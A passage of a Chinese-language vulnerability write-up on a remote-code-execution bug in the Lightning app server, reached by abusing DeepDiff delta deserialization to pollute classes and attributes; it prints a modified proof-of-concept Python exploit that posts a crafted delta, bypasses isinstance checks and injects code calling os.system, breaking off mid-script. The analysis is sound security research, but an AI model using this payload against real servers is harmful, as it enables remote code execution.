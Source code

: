 1、漏洞介绍
------

前几天在逛huntr的时候，发现一个很有意思的漏洞，他是通过反序列化从而去污染类和属性导致的rce，在作者的描述中大致说明的漏洞的原理，该漏洞是通过绕过`Deepdiff`的反序列化限制，包括绕过魔术方法和白名单绕过，通过魔术方法可以访问其他模块、类和实例，并使用这种任意属性写入，最终导致rce。

> 原文链接：<https://huntr.com/bounties/486add92-275e-4a7b-92f9-42d84bc759da>

这里我将原版的poc稍加进行改造，将Helper class转换后的内容直接写了出来，方便分析。

```python
import requests, time, pickle, pickletools
from collections import namedtuple
from ordered_set import OrderedSet

def send_delta(d):
    requests.post(server_host + '/api/v1/delta', headers={
        'x-lightning-type': '1',
        'x-lightning-session-uuid': '1',
        'x-lightning-session-id': '1'
    }, json={"delta": d})

# Monkey patch OrderedSet reduce to make it easier to pickle
OrderedSet.__reduce__ = lambda self, *args: (OrderedSet, ())

server_host = 'http://127.0.0.1:7501'
command = 'dir'

# this code is injected and ran on the remote host
injected_code = f"__import__('os').system('calc.exe')" + '''
import lightning, sys
from lightning.app.api.request_types import _DeltaRequest, _APIRequest
lightning.app.core.app._DeltaRequest = _DeltaRequest
from lightning.app.structures.dict import Dict
lightning.app.structures.Dict = Dict
from lightning.app.core.flow import LightningFlow
lightning.app.core.LightningFlow = LightningFlow
LightningFlow._INTERNAL_STATE_VARS = {"_paths", "_layout"}
lightning.app.utilities.commands.base._APIRequest = _APIRequest
del sys.modules['lightning.app.utilities.types']'''

bypass_isinstance = OrderedSet

delta = {
    'attribute_added': {
        "root['function']": namedtuple,

        # 绕过_collect_deltas_from_ui_and_work_queues中的isinstance(delta, _DeltaRequest)
        "root['function'].'__globals__'['_sys'].modules['lightning.app'].core.app._DeltaRequest": str,

        # 绕过_process_requests中的isinstance(request, _APIRequest)
        "root['bypass_isinstance']": bypass_isinstance,
        # 将OrderedSet的__instancecheck__设置有内容使其返回true，但不可为可迭代的，否则isinstance会报错
        "root['bypass_isinstance'].'__instancecheck__'": str,
        "root['function'].'__globals__'['_sys'].modules['lightning.app'].utilities.commands.base._APIRequest": bypass_isinstance(),

        # 绕过get_component_by_name中的isinstance(current, LightningDict)，使其能够遍历普通字典
        "root['function'].'__globals__'['_sys'].modules['lightning.app'].structures.Dict": dict,

        # 绕过get_component_by_name中的if not isinstance(child, ComponentTuple):
        "root['function'].'__globals__'['_sys'].modules['lightning.app'].core.LightningFlow": bypass_isinstance(),
        "root['function'].'__globals__'['_sys'].modules['typing'].Union": list,
```